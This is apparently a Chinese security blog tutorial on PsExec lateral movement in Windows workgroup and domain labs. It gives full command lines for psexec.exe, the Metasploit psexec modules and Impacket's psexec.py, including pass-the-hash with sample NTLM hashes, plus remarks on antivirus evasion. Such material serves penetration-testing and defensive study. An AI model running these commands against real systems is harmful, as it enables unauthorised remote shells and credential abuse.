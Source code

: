 **目录**

[Psexec](#t0 "Psexec")

[工作组环境](#t1 "工作组环境")

[域环境](#t2 "域环境")

[登录域控](#t3 "登录域控")

[以域用户登录域成员主机](#t4 "以域用户登录域成员主机")

[以本地用户登录域成员主机](#t5 "以本地用户登录域成员主机")

[MSF中的psexec模块](#t6 "MSF中的psexec模块")

[Impacket中的psexec.py](#t7 "Impacket中的psexec.py")

* * *

Psexec
======

psexec 是 windows 下非常好的一款远程[命令行](https://so.csdn.net/so/search?q=%E5%91%BD%E4%BB%A4%E8%A1%8C&spm=1001.2101.3001.7020)工具。psexec的使用不需要对方主机开机3389端口，只需要对方开启admin$共享或 c$ (该共享默认开启，依赖于445端口)。但是，假如目标主机开启了防火墙(因为防火墙默认禁止445端口的连接)，psexec也是不能使用的，会提示找不到网络路径。由于psexec是windows提供的工具，所以杀毒软件会将其添加到白名单中。

psexec.exe依赖于admin$共享，而impacket下的psexec.py则依赖于admin$或c$共享。

psexec的基本原理是：通过管道在远程目标机器上创建一个psexec服务，并在本地磁盘中生成一个名为"PSEXESVC"的二进制文件。然后，通过psexec服务运行命令，运行结束后删除服务。

在使用psexec执行远程命令时，会在目标系统中创建一个psexec服务。命令执行后，psexec服务将会被自动删除。由于创建或删除服务时会产生大量的日志，所以会在攻击溯源时通过日志反推攻击流程。

![](https://img-blog.csdnimg.cn/2020020121435095.png)

**psexec使用前提：**

*   对方主机开启了 admin$ 共享，如果关闭了admin$共享，会提示：找不到网络名
*   如果是工作组环境，则必须使用administrator用户连接，使用普通用户连接会提示：登录失败: 未授予用户在此计算机上的请求登录类型。
*   如果是域环境，连接普通域主机可以用普通域用户，连接域控需要域管理员。

![](https://img-blog.csdnimg.cn/20200201214757194.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200201215226406.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

参数：

*   \-u：指定用户名
*   \-p：指定密码
*   \-accepteula：第一次运行psexec会弹出确认框，使用该参数就不会弹出确认框
*   \-s：以system权限运行运程进程，获得一个system权限的交互式shell。如果不使用该参数，会获得一个administrator权限的shell

**工作组环境**
---------

如果是在非域环境下即工作组环境，psexec只能使用 administrator 账号登录，使用其他账号(包括管理员组中的非administrator用户)登录都会提示访问拒绝访问。

目标机器：192.168.10.131

*   管理员：administrator  密码：root
*   管理员：test 密码：root
*   非管理员：hack  密码：root

```
psexec.exe \\192.168.10.131 -u administrator -p root cmd
```


由图可知，只有 administrator 用户可使用psexec登陆。即使 test 用户也在管理员组内，也不能登录。 

![](https://img-blog.csdnimg.cn/20191219152111623.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

**域环境**
-------

### **登录域控**

域控只能使用域管理员组内账号密码登录，不能使用域普通成员账号登录，也不能本地登录。

域控：192.168.10.131

*   域管理员：xie\\test 密码：x123456./

```
psexec.exe \\192.168.10.131 -u xie\test -p x123456./ cmd
```


 ![](https://img-blog.csdnimg.cn/20200329223246433.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 以域用户登录域成员主机

域成员主机：192.168.10.130

*   域普通用户：xie\\hack  密码：x123456./

域成员主机可以使用普通域用户登录

```
psexec.exe \\192.168.10.130 -u xie\hack -p x123456./ cmd
```


![](https://img-blog.csdnimg.cn/20200329223043489.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 以本地用户登录域成员主机

域成员主机：192.168.10.22 (pc-win2008)

*   本地管理员：administrator  密码：root

使用本地用户登录域成员主机，也只能使用本地的 administrator 用户登录，前提是该主机没禁用administrator用户。

![](https://img-blog.csdnimg.cn/20200329223821448.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

MSF中的psexec模块
=============

MSF中的psexec，主要讲以下两个：

*   exploit/windows/smb/psexec：该模块生成的payload是exe程序
*   exploit/windows/smb/psexec\_psh  ：该模块生成的payload主要是由powershell实现的

显然powershell生成的payload免杀效果比exe的要好，但是windows xp、server2003默认不包含powershell环境。所以，这两个模块各有各自的优势。

![](https://img-blog.csdnimg.cn/20200201220033923.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

```
use exploit/windows/smb/psexec      
set rhost 192.168.10.131      
set smbuser administrator      
set smbpass x123456./@      
exploit
```


攻击成功后，会返回一个meterpreter类型的session 

![](https://img-blog.csdnimg.cn/20200201220625283.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

Impacket中的psexec.py
===================

关于如何安装Impacket框架

```
git clone https://github.com/CoreSecurity/impacket.git      
cd impacket/      
python setup.py install      
cd examples      
./psexec.py xxx
```


这里由于我是在自己的VPS上安装的Impacket框架，而靶机处在内网，所以我用代理实现互通。

```
#用明文密码连接      
./psexec.py xie/administrator:密码@192.168.10.131      
#用哈希值连接      
./psexec.py xie/administrator@192.168.10.131 -hashes AADA8EDA23213C025AE50F5CD5697D9F:6542D35ED5FF6AE5E75B875068C5D3BC
```


![](https://img-blog.csdnimg.cn/20200210091457629.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200210091502362.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

如果对方主机未开启445端口，则报如下错：

```
[-] [Errno Connection error (xx.xx.xx.xx:445)] [WinError 10060] 由于连接方在一段时间后没有正确答复或连接的主机没有反应，连接尝试失败。
```


![](https://img-blog.csdnimg.cn/20201020234527458.png)

如果对方主机开启了445端口，但是没有开启admin$和c$共享，则报如下错：

```
[*] Requesting shares on xx.xx.xx.xx.....
```


![](https://img-blog.csdnimg.cn/20201020234654308.png)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)